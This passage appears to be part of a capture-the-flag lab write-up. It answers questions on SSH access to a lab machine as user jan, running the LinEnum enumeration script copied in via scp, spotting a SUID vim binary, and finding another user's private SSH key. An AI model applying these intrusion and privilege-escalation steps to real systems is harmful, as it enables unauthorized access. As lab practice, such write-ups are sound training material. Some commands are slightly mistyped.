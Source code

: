 ```sh
	[22][ssh] host: 10.10.66.49   login: jan   password: ....
```
A="...."

## Q6
What service do you use to access the server.  
A="`SSH` 



## Q7
- Enumerate the machine to find any vectors for privilege escalation.  

	`log in as jan`

```sh
	ssh jan@10.10.205.103
	passwod:...
	cd .. to get to the home directory where you will find kay as a user
```
- But can't read the file 'pass.bat' in kay.  
- I will open a new terminal in my machine.  
- I will use LinEnum To get escalated privilege.  
```sh
	git clone https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
After downloading the linEnum.sh script, i  copied  the script to the target machine.
To do that I’ll use SCP.  

```sh
scp LinEnum.sh jan@10.10.205.103 :/dev/shm
```

Back to jan's machine.  
I’ll make it executable and run it.  

```sh
chmod +x LinEnum 
./LinEnum
 ```
Now this is interesting. Vim.basic is a SUID file, meaning we can run it with root privileges.

##  Q8
What is the name of the other user you found.  
A="kay"

## Q9
If you have found another user, what can you do with this information?  
  
Doing a thorough look we can find out something interesting in Kay’s .ssh directory.  
There is a private key!  
`id_rsa`  
try logging in to kay
oops!!  we are missing a passphrase.
